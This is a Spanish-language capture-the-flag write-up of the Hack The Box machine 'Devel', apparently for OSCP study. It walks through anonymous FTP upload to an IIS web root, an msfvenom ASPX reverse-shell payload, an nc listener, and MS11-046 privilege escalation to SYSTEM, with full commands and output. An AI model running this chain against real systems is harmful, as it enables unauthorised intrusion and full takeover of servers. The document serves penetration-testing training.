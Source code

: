 ```yaml
---
layout: post
title:  "OSCP Path ~ Devel de Hack The Box (Necesario VIP)"
categories: "HTB OSCP-PATH"
description: Writeup de la maquina de HackTheBox llamada DEVEL siguiendo el PATH para el OSCP
tags: HTB, OSCP Path, IIS, Upload Files, privesc Maquinas Retiradas, Writeup, Windows Hacking
---
```


# Devel ~ Hack The Box to OSCP

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10.5      "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
| 08-22-21  08:57PM                    6 test.html
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Procedemos a enumerar el servicio FPT y ver si podemos bajar los recursos disponibles y subir archivos.
Descargamos los recursos disponibles y verificamos que podemos subir archivos como el usuario `Anonymous`.

Procedemos a subir un archivo llamado prueba.txt que subimos por el ftp, para ver si podemos apuntar desde la pagina web ya que vemos recursos web almacenados en el servicio FTP que podrian ser del servicio HTTP
```bash
# ftp 10.10.10.5                                                                                                                                                                                              1 ⚙
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:pro): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put prueba.txt
local: prueba.txt remote: prueba.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
```

Lanzamos un  `Whatweb`
```bash
# whatweb http://10.10.10.5                                                                                                                                                                                  1 ⚙
http://10.10.10.5 [200 OK] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/7.5], IP[10.10.10.5], Microsoft-IIS[7.5][Under Construction], Title[IIS7], X-Powered-By[ASP.NET
```
Procedemos a hacer Fuzzing a nivel web. 
Al ser un servidor IIS 7-5 ssabemos que la extension de los archivos puede ser `aspx`
No encontramos Directorios potenciales.. 

Probamos a intentar apuntar al archivo que acabamos de subir al fpt llamdo `prueba.txt`
```bash
# curl -s -X GET "http://10.10.10.5/prueba.txt"
Se esta tensando que te cagas .. Ojito ..
```

Vemos que es nuestro archivo. Sabiendo esto y con las extensiones que trabaja el CMS IIS procedemos a crearnos una Reverse-shell con la herramienta `msfvenom`
```bash
# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.21 LPORT=443 -f aspx > shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2696 bytes
```
Y ahora que ya la tenemos vamos a ver si atraves del servicio FTP podemos subirla sin problema para luego apuntar a la misma y conseguir acceso a la maquina victima
```bash
# ftp 10.10.10.5  
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:pro): Anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put shell.aspx
local: shell.aspx remote: shell.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2731 bytes sent in 0.00 secs (74.4138 MB/s)
```
Procedemos a ponernos a la escucha en una session con `netcat` para recibir cualquier conexion entrante por el puerto 443

Procedemos a apuntar a la dirrecion HTTP + nuestro archivo shell.aspx
```bash
# curl -s -X GET "http://10.10.10.5/shell.aspx"
```
Recibimos la conexion correctamente:
```bash
# rlwrap nc -vlnp 443                                                                                                                                                                                         1 ⚙
listening on [any] 443 ...
connect to [10.10.16.21] from (UNKNOWN) [10.10.10.5] 49157
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv> whoami
iis apppool\web
```
Probamos a sacar el `systeminfo` de la maquina victima para pasarselo a `Windows-Exploit-Suggester`:
```bash
# python windows-exploit-suggester.py --database 2021-08-27-mssb.xls --systeminfo ../systeminfo.txt
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 179 potential bulletins(s) with a database of 137 known exploits
[*] there are now 179 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 7 32-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-015: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (977165) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```
Vemos diferentes exploits para escalar privilegios, pero investigando un poco sobre exploits para privesc en una maquina Windows-7
```bash
Subimos este binario por el servicio FTP: ms11-046.exe
Directory of c:\inetpub\wwwroot             ruta de los archivos almacenados FTP                                                                                                                                                                       
27/08/2021  11:52 ��    <DIR>          .                                    
27/08/2021  11:52 ��    <DIR>          ..                                                                                                                                       
18/03/2017  02:06 ��    <DIR>          aspnet_client                                                                                                                               
17/03/2017  05:37 ��               689 iisstart.htm                                                                                                                      
27/08/2021  01:41 ��           112.725 ms11-046.exe                                                                                                                           
27/08/2021  01:41 ��             2.696 shell.aspx                                                                                                                              
17/03/2017  05:37 ��           184.946 welcome.png                                                                                                                                                                  
               4 File(s)        301.056 bytes                                                                                                                                                                       
               3 Dir(s)  22.273.048.576 bytes free                                                                                                                             
```
 Ejecutamos el binario:
```
ms11-046.exe
ms11-046.exe

whoami
whoami
nt authority\system
```
